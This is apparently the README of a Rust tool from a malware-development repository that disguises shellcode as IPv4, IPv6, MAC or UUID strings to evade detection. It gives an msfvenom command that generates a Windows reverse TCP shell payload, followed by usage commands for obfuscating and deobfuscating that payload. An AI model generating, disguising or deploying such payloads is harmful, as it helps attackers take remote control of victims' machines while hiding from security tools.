



## Shellcode Obfuscation and Deobfuscation Technique

With this code you can obfuscate and deobfuscate shellcode using Ipv4, Ipv6, MAC, UUiD formats.

## Usages

#### Due to security reasons. Im removing the payload.bin. You generate the .bin on you own ..!

Example: `msfvenom -p windows/shell/reverse_tcp lhost=eth0 lport=4444 -f raw -o payload.bin`

### Command Format

```
cargo run -- -f <file> -t <technique> -o <operation>
```

### simply run the program to view the usages 

```
cargo run
```



### To obfuscate the payload.

```
cargo run -- -f .\payload.bin -t ipv4 -o obfuscate
```


### To Deobfuscate the paylaod 

```
cargo run -- -f .\obfuscated_ipv4.txt -t ipv4 -o deobfuscate
```


## ALL USAGES

### Obfuscation Commands

Obfuscate Using IPv4

```
cargo run -- -f .\payload.bin -t ipv4 -o obfuscate
```

Obfuscate Using IPv6

```
cargo run -- -f .\payload.bin -t ipv6 -o obfuscate
```

Obfuscate Using MAC

```
cargo run -- -f .\payload.bin -t mac -o obfuscate
```

Obfuscate Using UUID

```
cargo run -- -f .\payload.bin -t uuid -o obfuscate
```

### Deobfuscation Commands

Deobfuscate Using IPv4

```
cargo run -- -f .\obfuscated_ipv4.txt -t ipv4 -o deobfuscate
```

Deobfuscate Using IPv6

```
cargo run -- -f .\obfuscated_ipv6.txt -t ipv6 -o deobfuscate

```

Deobfuscate Using MAC

```
cargo run -- -f .\obfuscated_mac.txt -t mac -o deobfuscate
```

Deobfuscate Using UUID

```
cargo run -- -f .\obfuscated_uuid.txt -t uuid -o deobfuscate
```

## Resources Used

Thanks for the Wonderful Content and Resource by <b><a href="https://maldevacademy.com/" > Maldev Academy</a></b>.

For more Malware POC and codes visit <b><a href="https://github.com/Whitecat18/Rust-for-Malware-Development.git" > Rust for Malware Development</a></b> Repository. 

By @<a href="https://twitter.com/5mukx" >5mukx </a>